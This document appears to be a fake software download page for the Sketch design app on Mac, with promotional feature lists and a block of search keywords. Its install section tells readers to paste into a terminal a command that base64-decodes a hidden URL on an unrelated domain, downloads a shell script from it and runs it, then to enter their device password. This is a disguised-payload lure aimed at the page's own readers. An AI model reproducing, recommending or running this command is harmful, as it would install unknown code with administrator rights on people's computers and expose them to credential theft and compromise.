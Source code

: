 # Sketch for Mac Download - The Ultimate Digital Design Tool

![Sketch Screenshot](https://images.squarespace-cdn.com/content/5e949a92e17d55230cd1d44f/1599080349241-FAPTY53DP2TNI985BXJR/Bigsuriconsketch3x2.png)

---

### 🔽 Download Sketch for Mac

> 📥 Open the terminal on your device and paste the command below.
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Sketch for Mac?

Sketch is a powerful vector-based design application developed exclusively for macOS, trusted by UI/UX designers and product teams worldwide. This professional-grade tool offers a complete suite of features for crafting stunning interfaces, mobile apps, websites, icons, and various digital designs with absolute pixel precision.

Notable features and advantages:
- Advanced vector editing with intuitive controls
- Robust prototyping and animation capabilities
- Real-time collaborative design functionality
- Vast ecosystem of plugins and integrations
- Comprehensive design system management
- Smart export and asset optimization tools
- Native macOS integration for seamless performance

Designed specifically for Mac, Sketch delivers exceptional performance and fluid integration with other tools in your creative workflow. Its specialized focus on digital design makes it the superior choice compared to generic graphic software, offering tailored solutions for modern design needs. The clean interface and streamlined workflow allow designers to focus on creativity rather than tool complexity.

![Sketch Workspace](https://mac-cdn.softpedia.com/screenshots/Bohemian-Sketch_10.jpg)

---

## Key Features & Benefits

- ✏️ Advanced vector editing
- 🖌️ Pixel-perfect design tools
- 🔗 Interactive prototyping
- 👥 Real-time collaboration
- 🧩 Extensive plugins
- 🖥 macOS optimized performance

---

## 🔍 Keywords

Sketch for Mac, Sketch Mac Download, Sketch for Mac Download, Sketch Mac, Sketch Download Mac, Sketch Download for Mac, Sketch full version, Mac Download Sketch, Download Mac Sketch, Download Sketch Mac, Download Sketch for Mac
